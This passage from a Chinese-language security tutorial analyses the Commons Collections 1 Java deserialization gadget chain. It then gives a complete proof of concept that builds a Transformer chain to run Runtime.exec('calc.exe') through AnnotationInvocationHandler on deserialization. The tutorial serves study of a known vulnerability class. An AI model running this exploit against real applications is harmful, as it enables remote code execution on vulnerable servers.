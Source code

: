     // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    // 通过 class 类对象的构造函数实例化对象
    // 这里第一个参数要注意，下文会讲
    Object newInstance = aIHClassDeclaredConstructor.newInstance(GetMapping.class, transformedMap);
    // 对这个对象进行序列化
    // serialize(newInstance);
    ```

7. 这里有一个关键点：“触发 `setValue()` 前的 `if (menberType != null)` 这个条件。”

8. 追溯源码，大概可以知道：
    ![image-20230408105045948](image-20230408105045948.png)
    `memberType` 由 `memberTypes.get(name)` 获取到，这个 `name` 是 `memberValue.getKey()` 获取到的，`memberValue` 上文中提到是传入的 `Map` 中的一对键值对，**那么这里的 `name` 就是传入的 `Map` 的每一个键**。合并一下，就是 `memberType` 由 `memberTypes.get(transformedMap 的键)` 获得。但是这个 `memberTypes` 是什么？向上追溯到 `readObject()` 的开头，但还是没有头绪。这里就先打个断点，然后 debug 去看这个 `memberTypes` 是什么。
    ![image-20230408111335815](image-20230408111335815.png)
    可以看出，上文调用构造方法的时候传入了 SpringMVC 的 `GetMapping` 注解的 class 文件，**这里显示的是其注解中的变量名。**

9. 至此得出结论：`transformedMap` 中的键要和实例化 `AnnotationInvocationHandler` 时，构造函数的第一个参数（注解类）中的成员名字相一致。

#### 3.6.5 PoC 编写

1. PoC 最终的构造如下：
    ```java
    // 构造转换器链
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // 触发转换器链内所有转换器的 transform()
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    // 这里的 key 要注意，和下文注解类中的成员名称一致
    hashMap.put("value", "随便");
    // transformedMap.entrySet().iterator().next().setValue("123");
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    // 通过 class 类对象的构造函数实例化对象
    // 这里第一个参数要注意，注解类中要有成员
    Object newInstance = aIHClassDeclaredConstructor.newInstance(Target.class, transformedMap);
    String serialize = serialize(newInstance);
    unSerialize(serialize);
    ```
    